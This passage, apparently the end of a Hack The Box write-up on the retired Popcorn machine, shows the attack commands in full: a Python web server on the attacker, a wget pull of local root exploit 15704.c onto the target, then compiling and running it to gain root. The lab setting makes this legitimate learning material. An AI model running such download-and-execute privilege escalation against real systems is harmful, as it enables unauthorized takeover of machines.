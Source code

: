 Shellcodes: No Result
Papers: No Result
{% endhighlight %}

Vaguely recalling a morning commute read the Full and Half Nelsons ring a bell as a reliable and deadly exploit.

After reading through 15704.c and doing a test compile on the attacker it looks decent enough but I need a compiler for i686 arch to run.

I check for the gcc compiler on popcorn:

{% highlight shell %}
which gcc
{% endhighlight %}

to get

{% highlight plaintext %}
/usr/bin/gcc
{% endhighlight %}

Sweet, if I transfer the exploit it should compile, now on a new window I pop a quick python webserver on the attacker:

{% highlight shell %}
sudo python -m SimpleHTTPServer 80
{% endhighlight %}

Back to popcorn I move to /tmp pull the exploit over with wget and compile:

{% highlight shell %}
cd /tmp && wget http://10.10.14.34/15704.c
gcc 15704.c -o evil
{% endhighlight %}

I run the exploit

{% highlight shell %}
./evil
{% endhighlight %}

Boom! I'm root! W00tW00t!

{% highlight shell %}
id
uid=0(root) gid=0(root)
{% endhighlight %}

From here we can get the flags...

## Conclusions

This post concludes the [KaliSetup](/posts/#{{ categories }}) series, where I set up a Kali VM in HyperV for use in [HTB](https://www.hackthebox.eu/home){:target="_blank"} and used it to target the retired Popcorn Machine.
